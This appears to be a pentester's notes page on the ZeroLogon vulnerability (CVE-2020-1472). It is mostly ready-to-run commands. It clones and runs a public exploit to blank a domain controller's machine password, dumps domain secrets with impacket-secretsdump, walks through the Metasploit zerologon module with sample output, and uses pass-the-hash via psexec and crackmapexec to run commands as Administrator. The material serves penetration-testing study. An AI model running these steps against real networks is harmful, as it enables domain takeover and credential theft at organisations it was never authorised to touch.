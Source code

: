 # ZeroLogon

{% embed url="https://github.com/VoidSec/CVE-2020-1472" %}

a full white paper on this vuln:

{% embed url="https://www.secura.com/blog/zero-logon" %}

## <mark style="color:red;">Exploitation</mark>

```
pipenv shell
git clone https://github.com/SecureAuthCorp/impacket
cd impacket
python setup.py install
pip install .
cd ~
git clone https://github.com/VoidSec/CVE-2020-1472
cd CVE-2020-1472
pip install -r requirements.txt
./cve-2020-1472-exploit.py -n domain-controller -t 192.168.56.208
```

Running the script should results in Domain Controller's account password being reset to an empty string.

![](<../../../.gitbook/assets/image (16).png>)

test to see if the password was reseted:

```
impacket-secretsdump  -no-pass -just-dc MEGACORP.local/Lord_of_Domains\$@192.168.56.118
```

![](<../../../.gitbook/assets/image (9).png>)

## <mark style="color:red;">Metasploit Module</mark>

{% hint style="info" %}
The `auxiliary/gather/windows_secrets_du p` module can be used to recover the original machine account password which can then be restored with this module by using the `RESTORE` action and setting the `PASSWORD` value.
{% endhint %}

### <mark style="color:orange;">Verification Steps</mark>

1. Exploit the vulnerability to remove the machine account password by replacing it with an empty string:
2. Recover the original machine account password
3. Restore the original machine account password

**NBNAME :** The NetBIOS name of the target domain controller. You can use the `auxiliary/scanner/netbios/nbname` module to obtain this value. If this value is invalid the module will fail when making a Netlogon RPC request.

**PASSWORD** : The hex value of the original machine account password. This value is typically recovered from the target system's registry (such as by using the `auxiliary/gather/windows_secrets_dump` Metasploit module) after successfully setting the value to an empty string within Active Directory using this module and the default `REMOVE` action.

This value is only used when running the module with the `RESTORE` action.

```
use auxiliary/admin/dcerpc/cve_2020_1472_zerologon 
set RHOSTS 192.168.159.53
set NBNAME WIN-GD5KVDKUNIP
run

# output:
[+] 192.168.159.53:6403 - Successfully set the machine account (WIN-GD5KVDKUNIP$) password to: aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0 (empty)
[*] Auxiliary module execution completed
```

At this point the `exploit/windows/smb/psexec` module can be used to achieve code execution if desired. Set the `SMBUser` option to the machine account and the `SMBPass` option to the empty password value.

### <mark style="color:orange;">Recover Password</mark>

Next, recover the original machine account password value using `auxiliary/gather/windows_secrets_dump`. Look for the `plain_password_hex` value in the `$MACHINE.ACC` section.

```
use auxiliary/gather/windows_secrets_dump
set RHOSTS 192.168.159.53
set SMBUser WIN-GD5KVDKUNIP$
set SMBPass aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0
run
```

Finally, restore the original value using this module.

```
use auxiliary/admin/dcerpc/cve_2020_1472_zerologon
set ACTION RESTORE
set PASSWORD 4151e8f8490762bc47ec11855921aef606f9d37176aef0f43a3fc6dc4aefc4c0d7bb7b88ad635a11f94de37e0d82495bab1dec25ac9d547910f94332f4598de372c07635fba1f6592bd3bb5aeb827cb088b1cae8db872b59e267ccfef1df40580c8d918befb3c39d809a6c89767a466f88f40eb373f86cf20c9b6a07e89b596e14a44eae6a4ae55b92a481b71452a3bbab2d5735d70868b778541f3c6e4d1c8c097c086bc40d364c01d4520b8a86a217ac79b4e826b9dc2eedd0a834146e3f6fba7422960dbd4051f499be61eca4e1aeba786030acfdd21e9f5a98a35a3f0430cf0b536bff99163118a1c75ec852cc2d
run
```

## <mark style="color:red;">PSEXEC</mark>

{% hint style="info" %}
The hash is from `secretsdump` output.
{% endhint %}

```
impacket-psexec -no-pass -hashes aad3b435b51404eeaad3b435b51404ee:812d42b0faa0200aa3361267f518c3c5  domain.local/Administrator@192.168.120.247
```

## <mark style="color:red;">crackmapexec</mark>

{% hint style="info" %}
The hash is from `secretsdump` output.
{% endhint %}

```
crackmapexec smb 192.168.120.247 -u Administrator -H aad3b435b51404eeaad3b435b51404ee:812d42b0faa0200aa3361267f518c3c5  -d domain.local -x whoami
```

